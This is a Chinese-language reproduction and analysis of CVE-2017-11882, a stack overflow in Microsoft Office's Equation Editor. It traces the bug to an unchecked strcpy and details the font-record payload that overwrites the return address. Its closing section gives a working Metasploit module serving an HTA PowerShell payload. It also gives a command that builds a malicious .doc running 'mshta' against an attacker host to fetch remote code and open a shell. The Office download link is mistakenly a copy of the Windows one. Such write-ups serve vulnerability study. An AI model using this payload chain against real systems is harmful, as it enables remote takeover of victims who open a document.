# CVE-2017-11882 漏洞复现

## 测试环境

|            | 推荐环境  | 版本           |
| ---------- | --------- | -------------- |
| 操作系统   | Windows 7 | Service Pack 1 |
| 漏洞软件   | Office    | 2016           |
| 虚拟机     | VMware    | 16.2.3         |
| 调试器     | OllyDBG   | 2.0.1-32位     |
| 反汇编工具 | IDA Pro   | 6.8            |

影响范围：

office 2003
office 2007
office 2010
office 2013
office 2016

## 环境搭建

https://msdn.itellyou.cn/

Windows 7 sp 1

```
ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/
```

Office 2016

```
ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/
```

## 漏洞复现

打开exploit.rtf 成功弹出计算器


## 漏洞分析

我们利用process monitor中的Process Tree

可以看到调用计算机calc的是个来自office中的一个名叫EQNEDT32.EXE的组件



漏洞出现在模块EQNEDT32.EXE中，该模块为公式编辑器，在Office的安装过程中被默认安装。

现在来定位是EQNEDT32中哪个函数出的问题，我使用windbg的工具gfalgs

gfalgs工具本质是通过修改注册表中的DEBUG。如此配置之后，只要EQNEDT32.EXE进程被创建就会立即被指定的调试器挂住。

直接去修改HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\EQNEDT32.EXE里的Debugger也是一个效果


根据我们的exploit.rtf可以弹出calc，猜测程序条用了WinExec，CreateProcess之类的api，因此我们下断点，记得忽略异常，点击exploit.rtf，x32gdb自动挂起



在此处下断点



接着点击运行，此时程序停到了此处，我们查看堆栈调用情况



我们用ida查看EQNEDT32.EXE进行栈回溯

首先的返回地址是0x430C18


再上一层的返回地址是0x4218E4，可以看到原来的这块地址并不是call到调用WinExec那块，说明被发生了改变，我们进到该函数里看看


这里没有看到明显的一处点，但是有一个sub_41160F函数，我们接着进去康康


可以看到这里有个strcpy函数，没有校验长度，直接赋值，被复制的变量到栈底只有0x28字节


 我们利用动调去验证一下，我们在进入sub_41160F函数之前断点


然后单步进入



rep movsd(rep movs dword ptr es:[edi],dword ptr [esi])字符串拷贝,此时需要拷贝的数量为0xc*4 = 0x30 参数的长度超过了申请的变量大小0x28，原本正确的返回地址会被覆盖


被覆盖后返回地址为0x430c12


在正常流程return的时候，程序将跳转到这执行winexec


## 漏洞利用

在文件中我们可以看到此poc的位置



我们追踪一下污点



class name = Equation.3 我们使用olebrowse对它进行分析



通过[MTEF](http://rtf2latex2e.sourceforge.net/MTEF3.html#Introduction)学习资料

```
struct EQNOLEFILEHDR {
WORD cbHdr;     // 标题长度，sizeof(EQNOLEFILEHDR) = 28 字节
DWORD version；   // hiword = 2, loword = 0
 WORD cf;        // 剪贴板格式 ("MathType EF")
 DWORD cbObject;  // 此标头后面的 MTEF 数据长度（以字节为单位）
 DWORD reserved1; // 未使用
DWORD reserved2; // 未使用
DWORD reserved3; // 未使用
DWORD reserved4; // 未使用
};
```

前28字节是一个数据流的头部，然后后面紧随5字节是MTEF头部




接着16个字节的数据作为标签字节结构和选项值



再接着是一条font记录，




| Description | Size (byte)               | Value                                                     | Comment              |
| ----------- | ------------------------- | --------------------------------------------------------- | -------------------- |
| Tag         | 1                         | 0x8                                                       | 标识这个font记录     |
| tface       | 1                         | 0x5a                                                      |                      |
| style       | 1                         | 0x5a                                                      |                      |
| name        | 任意长度，以null byte结尾 | “cmd.exe /c calc.exe AAAAAAAAAAAAAAAAAAAAAAAA”+0x00430c12 | 可溢出，覆盖返回地址 |

EQNEDT32.EXE在解析Equation.3 OLE对象中的MTEF数据流里的font类型记录时，没有对font name的长度进行判断，将其复制入0x28大小的栈空间时可发生溢出，并可覆盖返回地址。

我们getshell试试

在Kali Linux上构造带有shell后门的word文件，并开启监听，需要提前准备好shell.rb

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##


class MetasploitModule  < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::HttpServer

  def initialize(info  = {})
    super(update_info(info,
      'Name' => 'Microsoft Office Payload Delivery',
      'Description' => %q{
        This module generates an command to place within
        a word document, that when executed, will retrieve a HTA payload
        via HTTP from an web server. Currently have not figured out how
        to generate a doc.
      },
      'License' => MSF_LICENSE,
      'Arch' => ARCH_X86,
      'Platform' => 'win',
      'Targets' =>
        [
          ['Automatic', {} ],
        ],
      'DefaultTarget' => 0,
    ))
  end

  def on_request_uri(cli, _request)
    print_status("Delivering payload")
    p = regenerate_payload(cli)
    data = Msf::Util::EXE.to_executable_fmt(
      framework,
      ARCH_X86,
      'win',
      p.encoded,
      'hta-psh',
      { :arch => ARCH_X86, :platform => 'win '}
    )
    send_response(cli, data, 'Content-Type' => 'application/hta')
  end


  def primer
    url = get_uri
    print_status("Place the following DDE in an MS document:")
    print_line("mshta.exe \"#{url}\"")
  end
end
```

```
python2 Command43b_CVE-2017-11882.py -c "mshta http://192.168.254.128:8080/abc" -o test.doc
cp /usr/share/metasploit-framework/modules/exploits/windows/smb/CVE_2017_11886.rb shell.rb
```


